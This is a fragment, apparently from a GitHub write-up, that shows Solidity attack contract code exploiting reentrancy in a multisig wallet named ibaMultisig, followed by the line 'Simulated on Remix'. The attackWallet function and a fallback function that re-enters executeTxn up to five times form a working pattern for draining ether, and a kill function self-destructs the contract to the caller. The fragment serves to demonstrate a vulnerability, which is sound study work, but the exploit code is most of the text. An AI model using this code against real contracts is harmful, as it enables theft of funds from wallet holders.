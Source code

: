```javascript

  function attackWallet() public {
      
      mywallet.submitTransaction(this,this,0,1 ether,data);
      mywallet.confirmTransaction(this,0,0);
      mywallet.executeTxn(this,0,0);
  }  
  
  // fallback function 
  function () payable {
        if(msg.sender==mywalletAdder&&attackCount<5){
            attackCount+=1;
            mywallet = ibaMultisig(mywalletAdder);
            mywallet.executeTxn(this,0,0);
        }
            
  }
function wallet() constant returns(uint256 result){
        return this.balance;
    }
function kill() {
    selfdestruct(msg.sender);
}
}


```


Simulated on Remix:


<p align="center">